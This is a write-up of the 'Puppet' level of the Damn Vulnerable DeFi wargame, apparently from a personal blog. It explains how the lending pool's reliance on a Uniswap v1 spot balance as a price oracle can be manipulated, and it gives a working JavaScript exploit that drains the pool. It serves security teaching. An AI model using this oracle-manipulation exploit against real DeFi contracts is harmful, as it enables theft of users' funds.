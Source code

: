 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Puppet
---
```


## Description
There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

## Solution
This challenge is really interesting because it forced me to dive into the Uniswap contracts. My idea was to exploit
the PuppetPool's method for computing the required deposit

```
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * 2 / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

It uses the uniswap pair as a price oracle. If we can manipulate the uniswap pair then we can manipulate the deposit
required in the lending pool.

I found a function called [tokenToEthSwapInput](https://github.com/Uniswap/v1-contracts/blob/master/contracts/uniswap_exchange.vy#L221) on the uniswap contract that allows you to deposit tokens into a pool and get eth in return.
If the attacker deposits all their tokens into the uniswap pool it would drive up `token.balanceOf(uniswapPair)`. This
would in turn drive down the PuppetPool's oracle price. This resulted in a successful exploit, all in Javascript:

```
it('Exploit', async function () {
    await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE)
    // Flood the pool with tokens. This will drive down PuppetPool's "oracle price"
    await this.uniswapExchange.connect(attacker)
        .tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE.sub(1), "1", (await ethers.provider.getBlock('latest')).timestamp * 2)

    const amountToSteal = await this.token.balanceOf(this.lendingPool.address)
    // deposit required will be small now that the uniswap pool's token balance is huge.
    const deposit = await this.lendingPool.calculateDepositRequired(amountToSteal)

    await this.lendingPool.connect(attacker).borrow(amountToSteal, {value: deposit})
})
```
